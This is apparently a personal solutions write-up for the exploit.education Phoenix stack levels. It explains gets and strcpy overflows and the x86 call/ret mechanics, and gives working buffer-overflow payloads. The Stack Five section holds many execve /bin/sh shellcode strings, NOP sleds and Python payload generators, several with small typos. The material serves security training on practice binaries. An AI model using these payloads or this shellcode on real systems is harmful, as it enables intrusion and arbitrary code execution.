


# [Phoenix](https://exploit.education/phoenix/)

- All code under the `src/*` folder is from [exploit.education](https://exploit.education)

## Usage

- Install `QEMU-system-<arch>` package
- Download the Qcow2 QEMU Image, extract the content, run the `*.sh` script to start the QEMU Image.
- Upon the boot sequence complete, login with user / user, or root / root., or `ssh user@127.0.0.1 -p 2222`
- Quote from [GETTING STARTED](https://exploit.education/phoenix/getting-started/):

> The kernel.core_pattern is set to /var/lib/coredumps/core.%e.%s.%p, so check in /var/lib/coredumps for the final levels, if exploiting over the network.
> Files to be exploited reside in /opt/phoenix/<architecture> (e.g. amd64, i486, arm64, amd, etc)
> SUID files won’t create a core dump, so make a copy of the files as needed for exploit development purposes.

### Other issues

- [GDB/GEF ENCODING ERROR](https://github.com/hugsy/gef/issues/195)

```sh
export LC_CTYPE=C.UTF-8
```


## STACK ZERO (Overwrite the next stack variable; gets())

- [STACK_ZERO-SRC](./src/stack-zero.c)

- Explain && Solution:

```sh
# ------------------------------------SRC-----------------------------------------
# struct {
#   char buffer[64];
#   volatile int changeme;
# } locals;
# ...
# gets(locals.buffer);
# ...
# if (locals.changeme != 0) {
# ...
# ------------------------------------EXPLAIN-------------------------------------
# - man 3 gets:
#
# SYNOPSIS
#        #include <stdio.h>
#
#        char *gets(char *s);
#
# gets() reads a line from stdin into the buffer pointed to by s until either
# a terminating newline or EOF, which it replaces with a null byte ('\0').
# ------------------------------------SOLUTION------------------------------------
# Input 64+ chars to overwrite the next stack variable.
python3 -c 'print("A" * 65 + "\n")' | ./stack-zero
```


## STACK ONE (Endianess. strcpy())

- [STACK_ONE-SRC](./src/stack-one.c)

- Explain && Solution:

```sh
# ------------------------------------SRC-----------------------------------------
# struct {
#   char buffer[64];
#   volatile int changeme;
# } locals;
# ...
# strcpy(locals.buffer, argv[1]);
# ...
# if (locals.changeme == 0x496c5962) {
# ...
# ------------------------------------EXPLAIN-------------------------------------
# - BIG ENDIAN
# - man 3 strcpy:
#
# SYNOPSIS
#      #include <string.h>
#
#      char *strcpy(char *dest, const char *src);
#
#      char *strncpy(char *dest, const char *src, size_t n);
#
# ------------------------------------SOLUTION------------------------------------
# Input 64 char + string in BIG ENDIAN to overwrite
./stack-one $(python3 -c 'print("A" * 64 + "\x62\x59\x6c\x49")')
```


## STACK TWO (Use an environment variable; strcpy())

- [STACK_TWO-SRC](./src/stack-two.c)

- Explain && Solution:

```sh
# ------------------------------------SRC-----------------------------------------
# struct {
#   char buffer[64];
#   volatile int changeme;
# } locals;
# ...
# ptr = getenv("ExploitEducation");
# ...
# strcpy(locals.buffer, ptr);
# ...
# if (locals.changeme == 0x0d0a090a) {
# ...
# ------------------------------------EXPLAIN-------------------------------------
# - man 3 getenv
# ------------------------------------SOLUTION------------------------------------
# Need the `export` to work.
export ExploitEducation=$(python3 -c 'print("A" * 64 + "\x0a\x09\x0a\x0d")'); ./stack-two
```


## STACK THREE (Find static address; objdump; gets())

- [STACK_THREE-SRC](./src/stack-three.c)

- Explain && Solution:

```sh
# ------------------------------------SRC-----------------------------------------
# void complete_level() { ... }
# int main(int argc, char **argv) {
#   struct {
#     char buffer[64];
#     volatile int (*fp)();
#   } locals;
#   ...
#   gets(locals.buffer);
#   ...
#     locals.fp();
#   ...
#   exit(0);
# }
# ------------------------------------EXPLAIN-------------------------------------
# - man objdump
# - objdump -d stack-three
# - objdump -t stack-three
# ------------------------------------SOLUTION------------------------------------
echo -en "$(python3 -c 'print("A" * 64)')\x9d\x06\x40\x00" | ./stack-three
```

- The symbol `complete_level` is a Global(g) Function(F)


## STACK FOUR (Memory layout, call, ret, rip, eip, Function Prologue, Function Epilogue)

- [STACK_FOUR-SRC](./src/stack-four.c)

- Solution:

```sh
# ------------------------------------SRC-----------------------------------------
# void complete_level() { ... }
#
# void start_level() {
#   char buffer[64];
#   void *ret;
#
#   gets(buffer);
#
#   ret = __builtin_return_address(0);
#   printf("and will be returning to %p\n", ret);
# }
#
# int main(int argc, char **argv) {
#   ...
#   start_level();
# }
# ------------------------------------SOLUTION(x86)------------------------------------
# r < ./input.txt
r <<< $(python3 -c '(print("A"*64 + "BBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKK"))')
echo -en "$(python3 -c 'print("A"*64 + "G"*4*6)')\x1d\x06\x40\x00\x00\x00\x00\x00" | ./stack-four
```

- crash dump (`rip` == "HHHHIIII", hence simply change the "HHHHIIII" to `*complete_level` to complete):

- The address of `complete_level`

- stack_four-poc


### EXPLAIN_x86 (LINUX MEMORY MAPPING, FUNCTION PROLOGUE && FUNCTION EPILOGUE)

- Simplified x86 Layout of Physical Memory



- To confirm, `sudo cat /proc/1/maps`, or see [Memory Mapping, Linux Kernel doc](https://linux-kernel-labs.github.io/refs/heads/master/labs/memory_mapping.html)
- More details in [Memory Mapping and DMA, LDD3-ch15](https://static.lwn.net/images/pdf/LDD3/ch15.pdf)




### EXPLAIN_x86 (How do RIP or EIP change on ret)

- **The `rip` or `eip` is pushed to the stack on `call`.**
- **The `rip` or `eip` is poped from the stack on `ret`.**
- This behaviour is defined in the `call` and `ret` instructions.
- Tracing the change of `rip` in stack-four:
  + The asm (we trace the `eip` on `<main + 30>` and the next instruction):
  
  + Initially, `eip` points to `<main + 30>`. When executed, the `eip` auto incremented to point to the next instruction, `<main + 35>` at `0x40068d`.
  + Then, because `<main + 30>` is a `call`, **the current `eip` is pushed to the stack**, then set to `<start_level + 0>` at `0x400635`
  + Now, as shown in the screenshot, we can peek into the topmost stack at `rsp` and see the stored `eip` value `0x40068d`.
  + This is the "return address". The address to the next insturction, after the `ret`.
  

- More details about the `call` and `ret` behaviour, see [Intel® 64 and IA-32 Architectures Software Developer’s Manual](https://www.intel.com/content/www/us/en/developer/articles/technical/intel-sdm.html):
[stack-four-x86-spec-of-call-and-ret](./img/stack-four-x86-spec-of-call-and-ret.png)


## STACK FIVE (Custom shellcode)

- [STACK_FIVE-SRC](./src/stack-five.c)

- Solution:

```sh
# ------------------------------------SRC-----------------------------------------
# char *gets(char *);
#
# void start_level() {
#   char buffer[128];
#   gets(buffer);
# }
#
# int main(int argc, char **argv) {
#   ...
#   start_level();
# }
# ------------------------------------SOLUTION(x86)------------------------------------
# r < ./input.txt
r <<< $(python3 -c '(print("A"*128 + "BBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKK"))')
# eip
r <<< $(echo -en "$(python3 -c 'print("A"*(128+8))')\x42\x42\x42\x42\xff\x7f\x00\x00\x00\x00\x00\x00\x90\x90\x90\x90\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x99\x50\x54\x5f\x52\x5e\x6a\x3b\x58\x0f\x05")
r < /tmp/in


echo -en "\x90\x90\x90\x90\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x99\x50\x54\x5f\x52\x5e\x6a\x3b\x58\x0f\x05$(python3 -c 'print("A"*(128+8-24))')\x98\xe4\xff\xff\xff\x7f\x00\x00" | ./stack-five

echo -en "\x90\x90\x90\x90\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x99\x50\x54\x5f\x52\x5e\x6a\x3b\x58\x0f\x05$(python3 -c 'print("A"*(128+8-24))')\x98\xe4\xff\xff\xff\x7f\x00\x00" | ./stack-five
b * start_level+22


# rax
r <<< $(echo -en "$(python3 -c 'print("A"*(128+8))')\x90\xe4\xff\xff\xff\x7f")

# unset env
r <<< $(echo -en "$(python3 -c 'print("A"*(128+8))')\x20\xed\xff\xff\xff\x7f")
r <<< $(echo -en "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90$(python3 -c 'print("A"*(128+8 - 94))')\x20\xed\xff\xff\xff\x7f")
echo -en "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05$(python3 -c 'print("A"*(128+8 - 94))')\x20\xed\xff\xff\xff\x7f" | env -i ./stack-five
echo -en "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05$(python3 -c 'print("A"*(128+8 - 94))')\x20\xed\xff\xff\xff\x7f" > /tmp/s

echo -en "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80$(python3 -c 'print("A"*(128+8 - 92))')\x20\xed\xff\xff\xff\x7f" | env -i ./stack-five
echo -en "\x90\x90\x90\x90\x90\x90\x90\x90\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x99\x50\x54\x5f\x52\x5e\x6a\x3b\x58\x0f\x05$(python3 -c 'print("A"*(128+8 - 28))')\x20\xed\xff\xff\xff\x7f" | env -i ./stack-five


echo -en "$(python3 -c 'print("A"*(128+8))')\x00\xee\xff\xff\xff\x7f\x00\x00\xcc\xcc" > /tmp/s
env -i ./stack-five < /tmp/s

echo -en "$(python3 -c 'print("A"*(128+8))')\xb0\xed\xff\xff\xff\x7f\x00\x00$(python3 -c "import sys;sys.stdout.buffer.write(b'\x90' * 1000)")\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05\xcc" > /tmp/s


# 86
r <<< $(echo -en "$(python3 -c 'print("A"*(128+12))')\x4c\xde\xff\xff$(python3 -c "import sys;sys.stdout.buffer.write(b'\x90' * 200)")\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80")

0xf7ff8233
r <<< $(echo -en "$(python3 -c 'print("A"*(128+12))')\x33\x82\xff\xf7$(python3 -c "import sys;sys.stdout.buffer.write(b'\x90' * 200)")\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80")

r <<< $(echo -en "$(python3 -c 'print("A"*(128+12))')\x33\x82\xff\xf7$(python3 -c "import sys;sys.stdout.buffer.write(b'\x90' * 200)")\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")

"\xbb\x50\x46\x4c\x04\xd9\xc6\xd9\x74\x24\xf4\x5f\x29\xc9\xb1\x06\x83\xef\xfc\x31\x5f\x0e\x03\x0f\x48\xae\xf1\x9e\x9d\xd9\x1b\x50\x16\x4e\xf3\xe3\x41\x8e\x63\x2c\xf0\xe7\x1d\xbb\x17\x3a\x61"
r <<< $(echo -en "$(python3 -c 'print("A"*(128+12))')\x33\x82\xff\xf7$(python3 -c "import sys;sys.stdout.buffer.write(b'\x90' * 200)")\xbb\x50\x46\x4c\x04\xd9\xc6\xd9\x74\x24\xf4\x5f\x29\xc9\xb1\x06\x83\xef\xfc\x31\x5f\x0e\x03\x0f\x48\xae\xf1\x9e\x9d\xd9\x1b\x50\x16\x4e\xf3\xe3\x41\x8e\x63\x2c\xf0\xe7\x1d\xbb\x17\x3a\x61")

r <<< $(echo -en "$(python3 -c 'print("A"*(128+12))')\x33\x82\xff\xf7$(python3 -c "import sys;sys.stdout.buffer.write(b'\x90' * 200)")\xbb\x50\x46\x4c\x04\xd9\xc6\xd9\x74\x24\xf4\x5f\x29\xc9\xb1\x06\x83\xef\xfc\xcc\xcc\xcc\xcc\x0f\x48\xae\xf1\x9e\x9d\xd9\x1b\x50\x16\x4e\xf3\xe3\x41\x8e\x63\x2c\xf0\xe7\x1d\xbb\x17\x3a\x61")

r <<< $(echo -en "$(python3 -c 'print("A"*(128+12))')\x33\x82\xff\xf7$(python3 -c "import sys;sys.stdout.buffer.write(b'\x90' * 200)")\xcc\xd9\xc4\xd9\x74\x24\xf4\x5a\xbf\x27\x82\x1d\x9a\x33\xc9\xb1\x1f\x83\xea\xfc\x31\x7a\x16\x03\x7a\x16\xe2\xd2\xe8\x17\xc4\x2d\x36\xd0\x1b\x1e\x8b\x4c\xb6\xa2\xbb\x15\xcf\x43\x76\x59\x58\xd8\xe1\x9a\xcf\xde\xe4\x72\x12\xde\x07\x38\x9b\x3f\x6d\x58\xc4\xef\x23\xf3\x7d\xee\x87\x36\xfd\x75\xc7\xb0\xe7\x3b\xbc\x7f\x70\x61\x3c\x80\x80\x3d\x57\x80\xea\xb8\x2e\x63\xdb\x0b\xfd\xe4\x99\x4b\x87\x59\x4a\x6c\xca\xa5\x34\x72\x3a\xaa\x46\xfb\xd9\x6b\xad\xf7\xdc\x8f\x3e\xb7\xa2\x82\xbf\x32\x9c\x65\xd0\x67\x94\x77\x49\x25\x82\xc7\x69\x84\x4b\xa2\xae\x6e\x4e\x52\xcf\x36\x4f\xac\x10\x46\xeb\xad\x10\x46\x0b\x63\x90\xcc")


# 64 shell
r <<< $(echo -en "$(python3 -c 'print("A"*(128+12))')x33\x82\xff\xf7$(python3 -c "import sys;sys.stdout.buffer.write(b'\x90' * 200)")\xcc\x48\x31\xc9\x48\x81\xe9\xef\xf\xf7\x9b\x52\x17\xf2\xf6\x68\xb9\x14\xf6\x57\x53\xe3\x23\xc2\xe8\x1d\x05\x37\x10\xe5\x19\xa9\x9f\x4a\x99\x15\x97\x7a\x0b\x93\x89\xd2\xd4\xe4\x10\xba\x72\x13\x01\xed\x9c\x48\x43\xf2\xfa\x4e\xab\x55\xc6\x37\x38\xe2\x7c\xad\x98\x0d\x19\x9d\x6b\x9f\x3a\x57\x08\x31\x84\x0a\x78\x99\x2b\xc2\xc1\x2f\x99\x15\x9b\x5d\x3b\x99\x37\x4a\x99\x04\x4b\xe5\x3b\x2d\x01\x3c\x5b\x37\x2e\xe2\x19\xa9\x9e\x4a\x99\x03\x78\x9c\x29\xa7\xc4\x0d\x19\x9d\x6a\x57\x8c\x4e\xc1\x45\x9c\x5d\x12\xba\xcc")
0x7ffff7d853c8
r <<< $(echo -en "$(python3 -c 'print("A"*(128+8))')x42\x42\x42\xf7\xff\x7f\x00\x00$(python3 -c "import sys;sys.stdout.buffer.write(b'\x90' * 200)")\xcc\x48\x31\xc9\x48\x81\xe9\xef\xf\xf7\x9b\x52\x17\xf2\xf6\x68\xb9\x14\xf6\x57\x53\xe3\x23\xc2\xe8\x1d\x05\x37\x10\xe5\x19\xa9\x9f\x4a\x99\x15\x97\x7a\x0b\x93\x89\xd2\xd4\xe4\x10\xba\x72\x13\x01\xed\x9c\x48\x43\xf2\xfa\x4e\xab\x55\xc6\x37\x38\xe2\x7c\xad\x98\x0d\x19\x9d\x6b\x9f\x3a\x57\x08\x31\x84\x0a\x78\x99\x2b\xc2\xc1\x2f\x99\x15\x9b\x5d\x3b\x99\x37\x4a\x99\x04\x4b\xe5\x3b\x2d\x01\x3c\x5b\x37\x2e\xe2\x19\xa9\x9e\x4a\x99\x03\x78\x9c\x29\xa7\xc4\x0d\x19\x9d\x6a\x57\x8c\x4e\xc1\x45\x9c\x5d\x12\xba\xcc")
\x48\x31\xc9\x48\x81\xe9\xef\xff\xff\xff\x48\x8d\x05\xef\xff\xff\xff\x48\xbb\x73\xa8\xc1\x45\x9c\x5d\x12\xba\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x3b\x99\x3e\x2f\x95\x05\x8b\x0c\x63\xe0\x48\x93\xd1\x6c\xdb\xd0\x51\xe9\x9b\xf7\x9b\x52\x17\xf2\xf6\x68\xb9\x14\xf6\x57\x53\xe3\x23\xc2\xe8\x1d\x05\x37\x10\xe5\x19\xa9\x9f\x4a\x99\x15\x97\x7a\x0b\x93\x89\xd2\xd4\xe4\x10\xba\x72\x13\x01\xed\x9c\x48\x43\xf2\xfa\x4e\xab\x55\xc6\x37\x38\xe2\x7c\xad\x98\x0d\x19\x9d\x6b\x9f\x3a\x57\x08\x31\x84\x0a\x78\x99\x2b\xc2\xc1\x2f\x99\x15\x9b\x5d\x3b\x99\x37\x4a\x99\x04\x4b\xe5\x3b\x2d\x01\x3c\x5b\x37\x2e\xe2\x19\xa9\x9e\x4a\x99\x03\x78\x9c\x29\xa7\xc4\x0d\x19\x9d\x6a\x57\x8c\x4e\xc1\x45\x9c\x5d\x12\xba

```

- shellcode before eip

```python
#/bin/python3
import struct,sys;
# rsp_addr = 0x00007fffffffe500;
rsp_addr = 0x00007fffffffe500;
rip = struct.pack("<Q", rsp_addr - 0x80 + 0x40);
# shellcode = b'\xcc';
nop_slope = b'\x90' * 20
shellcode = b'\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x99\x50\x54\x5f\x52\x5e\x6a\x3b\x58\x0f\x05';
# p = b'\x90'*(128+8-len(shellcode)) + shellcode + rip;
p = b'\x41'*(128+8) + rip + nop_slope + shellcode;
sys.stdout.buffer.write(p);
```

- shellcode after eip

```python
#/bin/python3
import struct,sys;rsp_addr=0x00007fffffffe500;rip=struct.pack("<Q",rsp_addr);shellcode=b'\xcc';p=b'\x90'*(128+8-len(shellcode))+shellcode+rip;sys.stdout.buffer.write(p);
```


- crash dump (`rip` == "HHHHIIII", hence simply change the "HHHHIIII" to `*complete_level` to complete):

- The address of `complete_level`

- stack_four-poc

